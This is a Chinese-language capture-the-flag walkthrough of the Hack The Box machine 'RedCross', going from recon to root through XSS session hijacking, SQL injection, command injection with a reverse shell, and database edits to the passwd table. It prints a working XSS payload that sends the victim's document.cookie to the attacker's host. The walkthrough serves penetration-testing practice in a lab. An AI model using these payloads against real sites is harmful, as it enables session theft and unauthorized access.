# 信息搜集

## Nmap

```
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.10.113 -oA scans/ports
...
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
...
root@kali# nmap -sT -sC -sV -O -p22,80,443 10.10.10.113 -oA scans/details
...
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u3 (protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.25
443/tcp open  ssl/http Apache httpd 2.4.25
Service Info: Host: redcross.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
...
```

开放了提供SSH服务的22端口、提供http服务的80端口以及提供https服务的443端口。

## Website -TCP 443

访问`http://10.10.10.113`返回301重定向到`https://intra.redcross.htb`之后将域添加到我的hosts文件中，再次访问就会重定向到`https://intra.redcross.htb/?page=login并显示成功登录到`RedCross Messaging Intranet。



## 目录FUZZ

我们使用gobuster进行目录爆破。

```
root@kali# gobuster -k -u https://intra.redcross.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -t 40
...
/index.php (Status: 302)
/images (Status: 301)
/pages (Status: 301)
/documentation (Status: 301)
/javascript (Status: 301)
/init.php (Status: 200)
...
```

在 /documentation 中寻找文档扩展名

```
root@kali# gobuster -k -u https://intra.redcross.htb/documentation -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,pdf -t 20
=====================================================
/account-signup.pdf (Status: 200)
=====================================================
```



访问该网址时，得到一个联系表格：



# 漏洞利用

## XSS漏洞检测

分别在三个文本框中分别测试XSS检测语句``。

发现第一个和第二个输入框的显示结果为：



第三个输入框的显示结果为没有提示内容存在安全风险，这意味着该文本框可能存在XSS漏洞的。



因为第三个文本框并不会进行回显操作，因此无法获得警告弹窗显示，所以我们换一种测试思路来判断是否存在XSS漏洞，在该文本框输入：

```javascript
<script>var myimg = new Image();myimg.src = 'http://10.10.14.7/q?='+ document.cookie;</script>
```

> 代码中的ip为我的Kali主机的ip地址。这个脚本的目的是利用图像对象的src属性，将用户的cookie信息发送到http://10.10.14.7/q。
> 
> `var myimg = new Image();` :这行代码创建了一个新的图像对象，名为myimg。
> 
> `myimg.src = 'http://10.10.14.7/q?='+ document.cookie;`:这行代码设置了图像对象的src属性，将其指向一个特定的URL。这个URL包含了用户的cookie信息。document.cookie会获取当前页面的所有cookie，并将其作为查询参数添加到URL的末尾。



在文本框输入xss测试poc后，还需要再Kali主机开启一个http服务：`python3 -m http.server 80`



上述操作做完后，可以发现kali主机的http服务出现了一个目标主机访问Kali的请求链接，链接中有一个phpsessionid,证明该后端确实存在XSS漏洞。

## 利用XSS获取的PHPSESSIONID获取Web管理员权限

回到登录界面https://intra.redcross.htb/?page=login。通过F12打开浏览器的开发调试模式。



将cookie替换为之前利用xss漏洞欺骗所获取的phpsessonid，发现成功绕过登录框，直接获取Web登录管理员的权限。



## sql注入测试

在拿到Web管理员权限界面后，尝试sql注入测试：https://intra.redcross.htb/?o=1%27&page=app

可能存在的注入点  ：GET /?o=2&page=app



通过sql注入的报错显示，名为admin webpanel的平台，着意味着当前域名存在其他的子域名系统。

我们需要把该子域名加入Kali主机的hosts文件中，更新后的hosts文件如下所示：



访问https://admin.redcross.htb/?page=login



再次使用admin账号的PHPSESSIONID，发现依然有效，成功登录该admin pannel的web系统



点击左边的“User management"，add一个用户





如上如所示，新增的用户分配了UID和GID，这看起来很像LInux系统中的用户类型，所以尝试刚才被分配的账号test,利用ssh成功登录目标主机系统，获取一个比较低的权限。



# 权限提升

下图中的文本输入框可能存在授权后的远程命令执行漏洞，于是简单的测试一下


下图所示，经测试后发现会回显一个错误提示页面，”ERR: Invalid IP Address format“,大意是输入不合法的IP地址格式，说明该文本框的后台存在类似waf的IP地址格式的检测。



使用burpsuite进行抓包，添加成功之后显示了一个deny按钮，我也点击删除了一下，具体数据包如下





将两个请求数据包测试了下，最后发现删除防火墙测量的请求数据包存在命令执行漏洞，具体如下



然后使用which查看了目标可能存在的环境，确认存python环境，直接使用python反弹代码进行反弹shell.



成功反弹shell



然后就是翻看目标靶机的各种文件了，这里翻看了家目录看到user.txt但是没有权限读取，然后翻看了当前web应用的根目录各个文件，发现了登录数据库的各种账号和密码



使用数据库管理员登录数据库



按照LInux操作系统的设定，修改UID和GID、密码的操作也会引发目标系统中/etc/passwd文件的对应用户信息。所以，把tricia的UID和GID改为为具有root权限的数值，这样我们在使用sudo su命令时，tricia直接拥有root权限，为了后期提权方便，把tricia的密码改为sXuCKi7k3Xh/s（解码后为toor）



通过update passwd_table set gid=27 where username='tricia';



最后，通过\q命令退出该数据库，利用su tricia命令切换至tricia用户，输入密码toor,成为切换至tricia用户。

输入id命令，发现成功提权至root。

